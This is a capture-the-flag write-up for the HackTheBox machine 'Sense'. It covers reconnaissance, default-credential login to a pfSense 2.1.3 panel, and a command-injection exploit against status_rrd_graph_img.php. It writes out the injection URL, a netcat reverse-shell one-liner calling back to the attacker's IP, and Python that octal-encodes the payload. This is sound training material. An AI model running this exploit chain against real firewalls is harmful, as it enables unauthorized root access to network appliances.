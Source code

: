 # Sense [HTB](https://app.hackthebox.com/machines/111)
![sense-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/sense-01.png)

## Recon 

After adding the target to my `/etc/hosts` file, I fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- sense.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/nmap-res-02.png)

We have the following:

+ A lighthttpd V1.4.35 HTTP server on ports 80 & 443. 

The target runs a single HTTP service with a lighthttpd server. Port 80 immediately redirects us to an SSL connection, let's have a look. 


## HTTP Port 443

I open up my browser and type `https://sense.htb`, my browser warns me about the validity of the certificate of this site, I accept the risks and ask to load the page anyway:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/site-03.png)

The site references [DNS rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding). These attacks usually involve a victim user clicking on a link, or a hidden HTML tag that leads to a domain controlled by the attacker's DNS server. 

The DNS rebinding attack leverages  the control the attacker has over the DNS to bypass the [Same-Origin Policy](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh3dqTu8qBAxVsh_0HHTVpDkAQFnoECBUQAw&url=https%3A%2F%2Fweb.dev%2Fsame-origin-policy%2F&usg=AOvVaw3oH90bDU0AARo5NNkbh5nZ&opi=89978449) imposed by modern web browsers. This is possible because the browser determines the origin of the request based on the `Hostname` parameter and general URI scheme, but because hostnames can point to any arbitrary IP, this can be leveraged to bypass the `Same-Origin Policy` to make malicious requests to other resources on the victim user's behalf.

Some examples of attack vectors can be internal network components in an enterprise enviorement, internal resources on the server itself, other sites altogether, like banking sites, etc. Here is the general scheme of the attack:

![dns-rebind-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/dns-rebind-04.png)

Palo Alto has a nice [artical](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiVt9rOvsqBAxUkhv0HHUP2AQ4QFnoECBAQAQ&url=https%3A%2F%2Funit42.paloaltonetworks.com%2Fdns-rebinding%2F&usg=AOvVaw1ZW27d0rhTxtJWKsFNLpUl&opi=89978449) about DNS rebinding attacks if you want to read more about it.


To avoid potential DNS rebinding attacks, the server replied with the above error. Rejecting requests with hostnames would eliminate any potential for DNS rebinding attacks, though it seems rather extreme. 

I dont see much potential in pulling a DNS rebinding attack againts this target. Let's open the web server through an IP address instead:

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/login-05.png)

This is an admin login portal for the [pfSense](https://www.pfsense.org/) open source firewall. At first I tried default credentials, when that failed I tried to brute force the login page. I wrote a simple script in Python to bypass the anti-csrf and session cookies which did work, but I've noticed that I get blocked after about 15 failed attempts. 

So instead, I decided to run a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u https://10.129.103.157/FUZZ -e .php,.cgi,.js,.html,.txt,.json,.xml
```

This yields quite a lot of results, but the most interesting one to me is this:

![users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/users.png)

If we open this file we can see the following:

![file-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/file-07.png)

This gives us a username. The password is set to be "company default", if we search online for default pfSense credenitlas we will find that the default password for most if not all appliances is `pfsesne`. 

After a few failed login attempts I found that the username is misspelled, and the credentials that do work are `rohit : pfsense`. This gets us inside the pfsense admin panel:

![admin-panel-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/admin-panel-08.png)

We can see that the version is 2.1.3 for a 64-bit FreeBSD machine. Let's search for exploits with:

```bash
searchsploit pfsense 2.1.3
```

![searchsploit-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/searchsploit-09.png)

Command Injection sounds good. After a bit of searching online I found that there is also a metasploit version available, so I decided to review the source code to try and pull this off manually:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/source-10.png)

Two things are going on here. First the actual payload is encoded to octal values. Next, the actual exploitation is executed via a Get request to the following URL:

```bash
/status_rrd_graph_img.php?database=-throughput.rrd&graph=file|printf%20%27<PAYLOAD>%27|sh|echo
```

We need to request this page after we have logged in to the pfsense admin panel and we have an active session, which we do have. So all we need is a reverse shell payload for a BSD platform, encode it to octal value, and send the GET request. 

The payload I got [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Next, we need to encode it, we can do this with the following python code:

```python
command = """
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 443 >/tmp/f
"""

payload = ''
for char in command:
    payload += ('\\' + oct(ord(char)).lstrip('0o'))

print(payload)
``` 

Finally, we need to URL encode the `|` characters found in the URL to `%7c`. All in all my final request to the server looks like this:

![req-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/req-11.png)

This gets me a shell as root:

![root-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sense/img/root-12.png)

